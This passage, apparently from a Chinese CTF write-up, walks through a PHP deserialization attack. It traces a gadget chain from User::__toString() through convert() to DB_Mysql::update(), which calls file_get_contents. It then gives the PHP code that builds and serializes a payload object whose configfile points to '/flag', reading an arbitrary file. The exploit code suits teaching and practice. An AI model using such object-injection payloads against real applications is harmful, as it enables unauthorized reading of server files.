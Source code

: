 我当时没注意，后面看到__toString()魔术方法调用了convert(),convert()里又用到了一个没在类里定义过的函数update(),觉得奇怪就去所有源码里搜了下update函数，最后在竟在DB.class.php里搜到，而且还是用到了file_get_contents。。
```php
public function update() {
    return file_get_contents($this->configfile);
}
```
于是思路就明确了，先把User类复制到本地环境，直接创建一个User类，输出序列化后的类对象。
这里还要重定义下__construct()魔术方法，直接给成员变量赋值，因为是调用的`$this->string`的convert()函数，所以`$string`成员必须是User类，直接等于`$this`即可。而convert()函数调用的又是`$this->hechengyu`的update()函数，已知update函数是DB_Mysql的类方法，于是`$this->hechengyu = new DB_Mysql();`
这里不定义`$this->db`也可以，当时我定义了还得在本地搭建数据库环境
```php
class User
{
    public $user;
    public $hechengyu;
    public $trash;
    public $db;
    public $tbUser;
    public $string;

    function __construct()
    {
       if (isset($_SESSION)) {
           if (isset($_SESSION['user'])){
               $this->user =  $_SESSION['user'];
           }
           if (isset($_SESSION['trash'])){
               $this->trash = $_SESSION['trash'];
           }
       } else {
           session_start();
       }
       $this->tbUser = 'users';
       $this->string = $this;
       $this->hechengyu = new DB_Mysql();
       $this->db = DBConnect();
    }

    function convert() {
        return $this->hechengyu->update();
    }

    function __toString() {

        return $this->string->convert();
    }

}
$a=new User(); 
echo urlencode(serialize($a));
```
而DB_Mysql类里的update函数具体实现是读取`$this->configfile`的文件内容，所以定义
```php
class DB_Mysql
{
    public $host, $username, $password, $database, $charset;
    public $linkId, $queryId, $configfile="/flag";
}
```
最后输出序列化且url编码后的payload即可
![20220611232318](https://s2.loli.net/2022/06/11/dWA4eMS7sUtvr8z.png)